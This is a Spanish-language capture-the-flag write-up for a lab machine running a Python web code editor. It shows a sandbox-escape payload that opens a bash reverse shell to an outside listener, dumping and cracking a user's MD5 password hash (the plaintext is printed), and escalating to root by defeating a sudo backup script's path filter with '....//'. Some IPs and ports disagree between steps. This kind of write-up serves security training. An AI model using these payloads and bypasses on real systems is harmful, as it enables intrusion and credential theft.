

# Code

<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Web Enumeration</li>
        <li>Python Reverse Shell Restriction Bypass</li>
        <li>Database SQLite File Enumeration</li>
        <li>Cracking Hashes</li>
        <li>Directory Path Traversal Restriction Bypass + Abusing Sudoers Privilege [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>

## Enumeracion básica

Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63


```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,5000 10.10.11.62 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.11.62:5000/
http://10.10.11.62:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn/20.0.4], IP[10.10.11.62], JQuery[3.6.0], Script, Title[Python Code Editor]

```
## Inspeccionar la Web


## Intrusion

```shell
test= getattr(print.__self__,'__im'+'port__')('o'+'s')
#getattr(test, 'sys' + 'tem')('ping -c 1 10.10.14.141')
getattr(test, 'sys' + 'tem')('bash -c "bash -i >& /dev/tcp/10.10.14.141/4441 0>&1"')
```
```
sudo tcpdump -i tun0 icmp -n
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
06:28:42.556822 IP 10.10.11.62 > 10.10.14.141: ICMP echo request, id 1, seq 1, length 64
06:28:42.561669 IP 10.10.14.141 > 10.10.11.62: ICMP echo reply, id 1, seq 1, length 64
```


```
penelope        
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.139.130 • 172.17.0.1 • 10.10.14.141
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from code~10.10.11.62-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/code~10.10.11.62-Linux-x86_64/2025_11_07-06_31_43-327.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
app-production@code:~/app$ whoami
app-production

```


## Inspeccionar Base de datos

```
app-production@code:~/app/instance$ sqlite3 database.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> show tables;
Error: near "show": syntax error
sqlite> show database;
Error: near "show": syntax error
sqlite> .database
main: /home/app-production/app/instance/database.db
sqlite> .tables
code  user
sqlite> Select * From user
   ...> ;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be

```
```

hashid '3de6f30c4a09c27fc71932bfc68474be'                            
Analyzing '3de6f30c4a09c27fc71932bfc68474be'
[+] MD2 
[+] MD5 
```

```
nafeelswordsmaster
```

## User pivoting 
```
martin@code:~$ 
```

## Escalada de privilegios

```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

```

martin@code:~$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

```
{
"destination": "/tmp",
"multiprocessing": true,
"verbose_log": true,
"directories_to_archive": [
"/home/....//root/"
]
}
```

```
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json
```